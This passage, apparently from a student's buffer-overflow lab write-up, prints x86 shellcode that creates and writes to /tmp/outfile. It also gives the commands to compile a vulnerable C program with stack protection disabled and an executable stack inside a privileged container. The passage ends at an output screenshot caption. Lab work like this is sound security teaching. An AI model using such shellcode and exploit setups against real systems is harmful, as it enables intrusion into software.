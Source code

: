 ```sh
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
 > shellcode.asm
```
## 3. Run docker and compile C program 
First, we run a container from docker
```sh
docker run -it --privileged -v C:/Users/anhdo/Desktop/22110008_DoDucAnh_bof:/home/seed/seclabs img4lab 
``` 
Second, we cd to file location:
```sh
cd /home/seed/seclabs
``` 
Third, we compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -w
``` 
Fourth, we compilte asm program and link it:
```sh
nasm -f elf32 -o shellcode.o shellcode.asm 
``` 
```sh
ld -o shellcode shellcode.o
``` 
Output screenshot: 